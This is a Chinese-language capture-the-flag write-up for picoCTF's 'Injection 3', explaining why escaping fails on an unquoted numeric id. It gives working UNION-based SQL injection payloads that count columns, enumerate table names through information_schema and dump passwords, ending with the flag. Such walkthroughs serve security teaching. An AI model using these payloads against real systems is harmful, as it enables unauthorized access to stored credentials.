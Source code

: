 # Injection 3
Daedalus加強了防護，在php code中加入mysqli_real_escape_string讓單引號雙引號攻擊無效了。
 * 仔細看程式碼：在[lookup_user.php](http://web2014.picoctf.com/injection3/lookup_user.php)中
 1. `$query = "SELECT * FROM ${table_prefix}users WHERE id=$id"`
  * `$id`是數字所以並沒有被單引號保護住，這給了我們很好的機會執行其他query！
 2. 這個php會把使用者資料印出來，所以如果能使用UNION只要把column的名字對應或重新命名成password就成功了！
  * 但因為table名字被${table_prefix}保護住，我們必須先找出**table全名**
 3. UNION指令會把兩個**相同數目**的column對應聯集起來，這個特性讓我們能**猜出user table有幾個column**！
  * 試了一下，`id=0 UNION SELECT 1,2,3,4,5,6,7`猜中了，下一步要搜出這個user table的全名
 * [MySQL官網query schema的教學](http://dev.mysql.com/doc/refman/5.0/en/columns-table.html)察看怎麼顯示table名字
  * `id=0 UNION SELECT table_name, table_name, table_name, table_name, table_name, table_name, table_name FROM information_schema.tables LIMIT 1`，成功顯示出一個table的名字。
 * 但不是我們要的，所以再加上`OFFSET = 1`，還是不對，於是寫個[script](script)從0跑到50，最後找到OFFSET = 40：
  * `id=0 UNION SELECT table_name, table_name, table_name, table_name, table_name, table_name, table_name FROM information_schema.tables LIMIT 1 OFFSET 40`，找出全名叫：`super_secret_users`。
 * 於是可以使用UNION顯示密碼了：`id=0 UNION SELECT password, password, password, password, password, password, password FROM super_secret_users WHERE id=1`，得到密碼 = `not_the_flag_super_secret_admin_password`
 * 最後再用這個密碼登入，成功取得`flag = flag_2tc7ZPa5PEhcyZJXgH`。
